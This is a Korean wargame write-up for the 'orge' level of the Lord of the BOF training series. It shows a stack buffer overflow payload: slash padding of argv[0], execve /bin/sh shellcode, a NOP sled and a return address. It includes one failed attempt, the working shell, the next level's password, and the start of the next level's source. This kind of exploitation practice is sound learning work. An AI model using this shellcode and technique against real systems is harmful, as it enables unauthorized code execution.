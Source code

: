 ### 3. exploit code
argv 0 에 길이가 77이 되야 하는 조건이 붙는다. 그렇다면 argv 0 은 도대체 무엇일까?
참조 : http://lafirr.tistory.com/12
위 사이트를 참고한 결과 실행할 바이너리를 뜻한다. 즉 ./orge test 라는 명령어를 쉘에서 입력 시
./orge가 argv 0 이되며, test 가 argv 1 이되는 것이다. ./orge의 길이를 77만큼 만들어야 하는데...

```
[darkelf@localhost darkelf]$ ////////////////////bin/ls
orge  orge.c
```

이런 방식처럼 ////를 많이 입력하여도 하나의 / 로 받아들이기 때문에 / 를 통해 문자열 길이를 조정하면 될 것 같다.
```
[darkelf@localhost darkelf]$ `python -c 'print "."+"/"*72+"orge"'`
argv error
[darkelf@localhost darkelf]$ `python -c 'print "."+"/"*72+"orge "'`a
stack is still your friend.
```

최종으로 생각한 exploit payload는 아래와 같다.

```
 `python -c 'print "."+"/"*72+"orge "+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*19+"\xec\xfd\xff\xbf"'`

 <\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*19+"\xec\xfd\xff\xbf"'`
 1�Ph//shh/bin��PS��1Ұ
                       ̀�����������������������
 0xbffffd64
 Segmentation fault (core dumped)
```
이런... segmentation fault가 떴다.... 페이로드를 다시 짜면, argv2의 메모리 주소를 위 풀이 처럼 다시 확인 결과 아래와 같은 페이로드를 짤 수 있었다.

```
 `python -c 'print "."+"/"*72+"orge "+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80"+"\x90"*19+"\x64\xfd\xff\xbf"'`

 bash$ my-pass
 euid = 507
 timewalker
```

## orge

### 1. source code
```
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	// here is changed
	if(argc != 2){
		printf("argc must be two!\n");
```